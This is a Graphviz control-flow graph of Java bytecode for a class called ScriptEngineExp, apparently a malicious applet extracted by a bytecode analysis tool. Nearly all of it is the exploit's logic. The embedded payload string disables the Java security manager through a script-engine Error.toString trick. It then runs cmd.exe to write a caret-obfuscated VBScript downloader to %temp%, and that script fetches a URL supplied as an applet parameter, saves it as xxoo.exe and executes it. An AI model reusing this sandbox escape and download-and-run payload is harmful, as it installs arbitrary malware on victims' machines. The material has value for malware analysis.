 digraph "" {
    "r0 := @this: ScriptEngineExp"
    "load.r r0"
    "r0 := @this: ScriptEngineExp"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "store.r $r10"
    "newarray"->"store.r $r10";
    "load.r $r10"
    "store.r $r10"->"load.r $r10";
    "push 0"
    "load.r $r10"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "dup1.r"
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"js\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"js\"";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "push \"js\""->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"data\""
    "load.r r0"->"push \"data\"";
    "virtualinvoke <ScriptEngineExp: java.lang.String getParameter(java.lang.String)>"
    "push \"data\""->"virtualinvoke <ScriptEngineExp: java.lang.String getParameter(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <ScriptEngineExp: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "new java.lang.StringBuffer"
    "store.r r1"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"var error = new Error(\\\"My error\\\");this.toString = function(){ java.lang.System.setSecurityManager(null);java.lang.Runtime.getRuntime().exec(\'cmd.exe /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo dim m,s>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo m=\\\"M^i^c^r^o^s^o^f^t^.^X^M^L^H^T^T^P\\\">>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo s=\\\"A=D=O=DB=.=S=t=r=e=a=m\\\">>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo set cmd =Createobject(replace(m,\\\"^\\\",\\\"\\\")) >>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo cmd.Send()>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo Set CsCriptGet = Createobject(replace(s,\\\"=\\\",\\\"\\\"))>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Open()>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c cscript \\\"%temp%\\\\down.vbs\\\" \""
    "dup1.r"->"push \"var error = new Error(\\\"My error\\\");this.toString = function(){ java.lang.System.setSecurityManager(null);java.lang.Runtime.getRuntime().exec(\'cmd.exe /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo dim m,s>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo m=\\\"M^i^c^r^o^s^o^f^t^.^X^M^L^H^T^T^P\\\">>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo s=\\\"A=D=O=DB=.=S=t=r=e=a=m\\\">>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo set cmd =Createobject(replace(m,\\\"^\\\",\\\"\\\")) >>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo cmd.Send()>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo Set CsCriptGet = Createobject(replace(s,\\\"=\\\",\\\"\\\"))>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Open()>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c cscript \\\"%temp%\\\\down.vbs\\\" \"";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"
    "push \"var error = new Error(\\\"My error\\\");this.toString = function(){ java.lang.System.setSecurityManager(null);java.lang.Runtime.getRuntime().exec(\'cmd.exe /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo dim m,s>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo m=\\\"M^i^c^r^o^s^o^f^t^.^X^M^L^H^T^T^P\\\">>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo s=\\\"A=D=O=DB=.=S=t=r=e=a=m\\\">>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo set cmd =Createobject(replace(m,\\\"^\\\",\\\"\\\")) >>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo cmd.Send()>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo Set CsCriptGet = Createobject(replace(s,\\\"=\\\",\\\"\\\"))>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Open()>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\down.vbs\\\"&&cmd.exe /c cscript \\\"%temp%\\\\down.vbs\\\" \""->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "load.r r1"
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"load.r r1";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "load.r r1"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \" \\\"%temp%\\\\xxoo.exe\\\"&& \\\"%temp%\\\\xxoo.exe\\\"\');\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \" \\\"%temp%\\\\xxoo.exe\\\"&& \\\"%temp%\\\\xxoo.exe\\\"\');\"";
    "push \" \\\"%temp%\\\\xxoo.exe\\\"&& \\\"%temp%\\\\xxoo.exe\\\"\');\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"return \\\"exploit!\\\";};\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"return \\\"exploit!\\\";};\"";
    "push \"return \\\"exploit!\\\";};\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"error.message = this;\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"error.message = this;\"";
    "push \"error.message = this;\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "pop"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "push \"error\""
    "pop"->"push \"error\"";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "push \"error\""->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "new javax.swing.JList"
    "arraywrite.r"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"load.r $r10";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "load.r $r10"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <ScriptEngineExp: javax.swing.JList list>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <ScriptEngineExp: javax.swing.JList list>";
    "fieldput <ScriptEngineExp: javax.swing.JList list>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <ScriptEngineExp: javax.swing.JList list>"
    "load.r r0"->"fieldget <ScriptEngineExp: javax.swing.JList list>";
    "virtualinvoke <ScriptEngineExp: java.awt.Component add(java.awt.Component)>"
    "fieldget <ScriptEngineExp: javax.swing.JList list>"->"virtualinvoke <ScriptEngineExp: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <ScriptEngineExp: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"
    "virtualinvoke <ScriptEngineExp: java.awt.Component add(java.awt.Component)>"->"virtualinvoke <javax.script.ScriptException: void printStackTrace()>";
}
